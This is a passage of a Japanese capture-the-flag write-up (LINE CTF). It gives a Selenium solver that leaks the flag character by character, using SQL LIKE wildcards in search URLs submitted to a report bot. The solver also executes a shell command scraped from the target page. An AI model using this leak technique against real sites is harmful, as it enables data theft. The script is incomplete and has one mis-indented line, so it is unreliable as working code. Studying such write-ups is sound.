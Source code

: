 ### Solver

下記のSolverを使って、flag文字列を頭から一文字ずつ抽出した。[^7]

```py
import os
import string
import subprocess
from concurrent.futures.thread import ThreadPoolExecutor
from urllib.parse import quote, urljoin

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

BASE_URL = os.getenv('BASE_URL')

USERNAME = os.getenv('USERNAME')
PASSWORD = os.getenv('PASSWORD')

S = string.ascii_lowercase + string.digits + '-'

FLAG_PRE = 'LINECTF{'
FLAG_SUF = '}'


def length_is(n: int) -> str:
    return f'{FLAG_PRE}{"_" * n}{FLAG_SUF}'


def nth_char_is(n: int, c: str) -> str:
    return f'{FLAG_PRE}{"_" * (n - 1)}{c}%{FLAG_SUF}'


def prop_holds(prop: str):
    print(f"\r[info] Attempting this prop => '{prop}'\033[0K", end='')

    options = Options()
    options.add_argument('--headless')
    driver = webdriver.Chrome(os.getenv('CHROME_DRIVER_PATH'), options=options)
    try:
        # Login
        driver.get(urljoin(BASE_URL, '/login'))
        driver.find_element_by_css_selector('input[name=username]').send_keys(USERNAME)
        driver.find_element_by_css_selector('input[name=password]').send_keys(PASSWORD)
        driver.find_element_by_css_selector('button[type=submit]').submit()

        # Move to /report
        report_bug_button = driver.find_element_by_css_selector('a.button.is-warning.is-light')
        report_bug_button.click()

        # Proof of work
        pow_cmd = driver.find_element_by_tag_name('strong').get_attribute('textContent').split('&&')[-1].strip()
        proof = subprocess.check_output(pow_cmd, shell=True).decode()

        # Make the payload
	    payload = urljoin(BASE_URL, f'/search?q={prop}&download=')

        # Submit the payload
        driver.find_element_by_css_selector('input[name=url]').send_keys(payload)
        driver.find_element_by_css_selector('input[name=proof]').send_keys(proof)
        driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(4) > p > button').submit()

```

[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。